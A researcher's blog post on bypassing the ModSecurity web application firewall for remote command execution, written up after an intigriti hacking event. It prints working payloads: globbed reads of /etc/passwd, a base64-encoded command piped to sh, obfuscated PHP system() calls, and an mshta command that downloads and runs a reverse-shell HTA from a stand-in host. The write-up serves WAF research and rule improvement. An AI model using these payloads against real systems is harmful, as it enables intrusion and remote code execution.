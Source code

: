 ```yaml
---
layout: post
title:  "Bypassing ModSecurity for RCEs"
date:   2022-08-29 18:32:00 +0530
author: Somdev Sangwan
tags:   [event, bypass, security]
image: /imgs/thumbs/modsecurity-event.png
permalink: /blog/modsecurity-rce-bypass
description: "A tale of multiple RCE bypasses for ModSecurity WAF."  
---
```


> tl;dr: I bypassed [ModSecurity](https://github.com/SpiderLabs/ModSecurity) for multiple RCEs in a hacking event hosted by [intigriti](https://www.intigriti.com/).

## WAFs 101

Firewalls stop attacks. They can recognize them with their database of various rules that describe what an attack looks like. These rules are created by hand or automated analysis of thousands of actual attacks.
  
A web application firewall is a firewall, for websites.

### Blacklists are hard
`ping` is a tool commonly used to troubleshoot networks. As a WAF programmer, you might want to block attempts to run it. But what if user A sends a text message to user B through your WAF,
> your router looks fine, try to ping google.com

That's it. The WAF blocked the message, the user filed a complaint to the website owner. The owner debugged the issue and found out that the WAF was at fault.  
Now prepare for an angry twitter thread to be shoved down your throat, your wife Karen leaving you and taking the kids with her. You are done.

Jokes apart and credit where it's due, writing anti-attack rules for unknown contexts is tough. You need to prioritize false negatives over false positives over multiple levels of security while still protecting against the most common attacks.

With that being said, let me tell you a tale of why I am so cool and such a genius for trying random things until some of them worked.

## Filenames in Linux
> Note: When I say "linux", it means *nix (linux and unix). This applies to the entire article.

It is common knowledge that in linux, wildcards such as `*` and `?` are allowed in filenames. But did you know that character classes are also allowed? If your file is named `test.txt`, you can access it by typing `te[sn]t.txt`. The `[sn]` here is a *character class* which says that the character in this place can be an `s` or an `n` i.e. it will match both `test.txt` and `tent.txt`.

If you add an exclamation symbol (`!`) at the beginning of the character class (i.e. `[!sn]`) it will match everything other than the characters in it (i.e. `s` and `n`).

These character classes notations were not getting detected by ModSecurity, giving us two neat bypasses:

```
cat /etc/pass[w]d
cat /etc/pass[!x]d
```

## Everything is a file in Unix
> "Everything is a file" describes one of the defining features of Unix, and its derivatives—that a wide range of input/output resources such as documents, directories, hard-drives, modems, keyboards, printers and even some inter-process and network communications are simple streams of bytes exposed through the filesystem name space.
> - [WikiPedia](en.wikipedia.org/wiki/Everything_is_a_file)

Every command in linux is ultimately an executable binary file stored in `/usr/bin`. Thus instead of executing `ping`, you can write `/usr/bin/ping` and it will work.

Building on my previous exploit that could only interact with files, I turned that file-access technique into a juicy RCE with  

```
/usr/bin/who[a]mi -a
```

## Utilising the linux utilities
There are some amazing [core utilities](https://en.wikipedia.org/wiki/List_of_GNU_Core_Utilities_commands) that come pre-installed in linux.

I cross-checked them with ModSecurity's rules and found some commands that were missing from the blacklist. With a bit of reading here and there, the `base64` utility caught my eye. As the name suggests, it does [base64](https://en.wikipedia.org/wiki/Base64) encoding/decoding.

The idea was to encode the command as base64, decode it and pass the result to something that can "eval" it as a command.

There were some problems with this plan,
1. base64 utility needed [stdin](https://linuxhint.com/bash_stdin_stderr_stdout/) and the only plausible way to do that was with `echo` (e.g. `echo dW5hbWUgLWE= | base64 -d`). But `echo` was blacklisted, as it should be.
2. `sh` (shell) command can execute stdin as a command. Unfortunately, it was blacklisted too and there is no alternative to `sh`.

I solved the first problem by using `printf` instead of `echo`. It's an echo-like utility that supports string formatting.

The second one seemed like a dead end, the most common outcome in research. I did what researchers do, I decided to pursue other ideas as a break.
It helped, after some messing around I found that if a command isn't followed by any character, it doesn't get detected.

Combining these two bypasses, the final bypass becomes this:
```
printf dW5hbWUgLWE= | base64 -d | sh
```

Here, we base64 encoded a command, used the `base64` to decode it and then used `sh` to execute the decoded command.  
  
The neat thing about this bypass is that you smuggle literally anything and since it's base64 encoded, the WAF won't detect a thing.

## Windows is no different
Hacking is about trying things. Sometimes stupidly obvious, sometimes things you learned from a 4-page forum thread from 2006 and sometimes whatever keys you can press with your blurry sleepy eyes at 4 AM.

I tried the `?` filepath wildcard on Windows and it worked. ModSecurity didn't detect it since the wildcard detection rules were for `/paths/like/this` not `C:\paths\like\this`. Easy.

```
C:\Windows\System32\WindowsPowerShell\v1.0\power?hell.exe -File test.ps1
```

### Programming languages have versions now?
ModSecurity blocked `python xyz`, `python2 xyz` and `python3 xyz`. "Unfortunately", you can also invoke specific versions of the interpreter as `python3.10 xyz` for example. This variation wasn't blacklisted and hence I found a way to install arbitrary malware using python.

```
python3.10 -m pip install malware
```

## Entering through the Windows  
Windows is a gold mine for not-so-well-known features. Some found through a blog of a 16yo reverse engineer, some through Windows 95 guides and some by simply googling "windows malware delivery github".

I found a utility named [mshta](https://redcanary.com/threat-detection-report/techniques/mshta/) which is a windows component that deals with HTA ([HTML Application](https://en.wikipedia.org/wiki/HTML_Application)) files. These files can contain executable VBScript code and there's even a metasploit module to generate malicious HTA files.  
  
ModSecurity didn't detect it which gave me a payload that can download+execute arbitrary VBScript code.

```
mshta http://example.com/reverseShell.hta
```

## PHP Injection

You should check out [OWASP Core Rule Set](https://github.com/coreruleset/coreruleset), the collection of WAF rules used by ModSecurity. The comprehensibly documented rules through comments make it an excellent resource.

While trying to get my PHP function calls through the WAF, I went through the documentation of the [rule](https://github.com/coreruleset/coreruleset/blob/977ccdfb914e6d62b00ae26e2006b75b22e3df6c/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf#L418) that detects them. It was there where I learned that an attacker can obfuscate a function call as:

```
$x='sy'.'tem';
$x(ls);
```

Something clicked immediately, what if I could do this segmentation without a variable? One thing led to another and after a bit of testing, I came up with:

```
return"system"(ls).s;
```

Don't ask me to explain how this one works, I don't know much about PHP. I just tried things that made sense after looking at known bypasses and this one worked in a PHP webpage I created for testing.

### Credits
ModSecurity is an open-source WAF and if you ask me, it's as good as WAFs get. It is almost impossible to bypass it for XSS, the rules are that good.

Shoutouts to them for maintaining such an important and free project responsibly and thanks to intigriti for hosting this hacking event and inviting me.

Until next time, fellas.
